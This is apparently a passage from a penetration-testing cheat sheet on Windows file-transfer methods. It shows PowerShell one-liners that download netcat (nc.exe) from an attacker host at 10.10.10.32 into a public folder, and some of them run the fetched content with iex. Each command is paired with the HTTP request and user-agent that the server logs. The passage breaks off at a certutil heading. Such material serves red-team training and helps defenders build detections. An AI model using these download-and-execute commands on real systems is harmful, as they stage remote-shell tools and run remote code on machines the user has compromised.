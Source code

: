 ### Invoke-WebRequest - Client

```powershell
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

#### Invoke-WebRequest - Server

```bash
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

### WinHttpRequest - Client

```powershell
$h=new-object -com WinHttp.WinHttpRequest.5.1;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.ResponseText
```

#### WinHttpRequest - Server

```bash
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

### Msxml2 - Client

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.responseText
```

#### Msxml2 - Server

```bash
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

### Certutil - Client
